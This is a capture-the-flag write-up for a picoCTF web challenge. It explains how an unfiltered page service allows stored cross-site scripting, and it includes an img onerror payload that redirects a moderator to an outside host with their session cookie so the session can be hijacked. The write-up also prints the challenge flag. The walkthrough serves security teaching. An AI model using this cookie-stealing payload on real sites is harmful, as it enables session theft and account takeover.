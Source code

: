 ## secure_page_service - 100 (Web Exploitation)
####writeup by Oksisane

### Problem

The bad guys have hidden their access codes on an [anonymous secure page service](http://sps.picoctf.com/). Our intelligence tells us that the codes was posted on a page with id `43440b22864b30a0098f034eaf940730ca211a55`, but unfortunately it's protected by a password, and only site moderators can view the post without the password. Can you help us recover the codes?

### Hint

What happens if you put HTML into a page?

## Answer


### Overview

Exploiting XSS vulurabilities to get Admin user's session cookie.

### Details
Cross-site scripting (commonly reffered to as XSS) is a type of web exploit which invloves an attacker being able to inject client side scripting into pages viewable by other users. After testing with a simple page such as ```<h1>Hi</hi>``` which produces <h1>Hi</h1> it is clear that secure_page_service is not filtering any html we put into a page and instead is treating as normal, a glaring xss vulnerability. But how can we exploit this? The key here is the Report to Moderator button. We can setup a page that records the moderator's session cookie and then lure them to the page by reporting the page. Once we have their session cookie we can preform a [session hijacking](http://en.wikipedia.org/wiki/Session_hijacking) attack (replace our session with that of the moderators), so that secure_page_service will think we are the moderator and override the password check when we browse to page `43440b22864b30a0098f034eaf940730ca211a55`.
So now we what to do once we have our cookie, but how do we get it?

We can form a tag such as
```html
<img src=/ onerror=location.href=("http://ehsandev.com/pico.php?c="+document.cookie)>
```
What this does is attempt to load an image from /, which will always fail. On error, it redirects (using `location.href`) the user to a page on a server (in this case ehsandev.com) with the cookies of the victim in the url. The attacker can then simply view the log of the get request made to the server and copy out the session id. For example, a user could be directed to `http://ehsandev.com/pico.php?c=PHPSESSID=02b8t6vqgvfigv4at2ovp3e0g6` where `02b8t6vqgvfigv4at2ovp3e0g6` is the session cookie we are looking for and would appear in the access logs of this site. Finally, we have to manually set this to our cookie using a Chrome extension such as [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) or a Firefox extension such as [Cookies Manager+](https://addons.mozilla.org/en-US/firefox/addon/cookies-manager-plus/). Then, we view the page `43440b22864b30a0098f034eaf940730ca211a55` and we get our flag!

### Flag
wow_cross_site_scripting_is_such_web
